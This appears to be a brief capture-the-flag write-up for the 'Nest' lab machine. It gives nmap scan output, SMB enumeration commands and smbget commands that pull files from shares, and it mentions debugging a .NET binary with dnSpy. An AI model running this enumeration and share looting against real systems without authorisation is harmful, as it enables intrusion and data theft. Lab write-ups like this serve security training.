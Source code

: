 # Nest
```
# Nmap 7.70 scan initiated Mon May 11 02:09:57 2020 as: nmap -sC -sV -o scan.nmap 10.1
0.10.178                                                                              
Nmap scan report for 10.10.10.178
Host is up (0.015s latency).
Not shown: 999 filtered ports
PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?
```
### Enumerate
- nmap --script smb-vuln* -p 445 10.10.10.178
- nmap --script smb-* -p 445 10.10.10.178
- enum4linux -L 10.10.10.178
- smbmap -H 10.10.10.178

```
smbclient -L /10.10.10.178
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        Secure$         Disk      
        Users           Disk      
```
- smbget 
```
smbget -Rr smb://10.10.10.178/Data/ -U TempUser
smbget -Rr smb://10.10.10.178/Secure$/IT/Carl -U TempUser
smbclient //10.10.10.178/Secure$/IT/Carl -U TempUser
smb> allinfo file_name
```
-Dnspy
dnSpy is a debugger and .NET assembly editor. You can use it to edit and debug assemblies even if you don't have any source code available.
We use it to debug the file Hqkldap.exe .

- compile and execute a VB file with online .NET complier
